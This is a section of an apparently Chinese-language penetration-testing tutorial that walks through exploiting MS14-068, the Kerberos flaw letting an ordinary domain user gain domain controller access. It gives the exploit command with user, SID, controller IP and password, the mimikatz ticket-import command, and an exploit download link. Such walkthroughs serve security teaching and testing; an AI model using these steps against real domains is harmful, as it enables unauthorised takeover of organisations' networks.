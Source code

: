 ### 4.2.5 MS14-068

MS14-068 是一个能够使普通用户提权获取域控权限的权限提升漏洞，微软给出的补丁 是 kb3011780。在 server 2000 以上的域控中，只要没打这个补丁，都有可能被利用。

* 1、 尝试直接访问域控的 C 盘

![](images/yushentou/15899762666872.png)


* 2、使用 ms14-068 的 exp，生成票据

```bash
C:\Users\jeff1\Desktop>MS14-068.exe -u jeff1@adtest.com -s S-1-5-21-3418659180-3 421952656-1938706522-1109 -d 192.168.19.100 -p test@124

```

![](images/yushentou/15899762773517.png)


* 3、 使用 mimilatz 导入生成的 ccache 文件，导入之前 cmd 下使用命令 klist purge 或者在 mimikatz 中使用 kerberos::purge 删除当前缓存的 kerberos 票据

![](images/yushentou/15899762857192.png)


导入票据:

```bash
kerberos::ptc TGT_jeff1@adtest.com.ccache

```

![](images/yushentou/15899762930327.png)


4、 再次访问域控

![](images/yushentou/15899763004220.png)


MS14-068 下载地址:

https://github.com/ianxtianxt/MS14-068


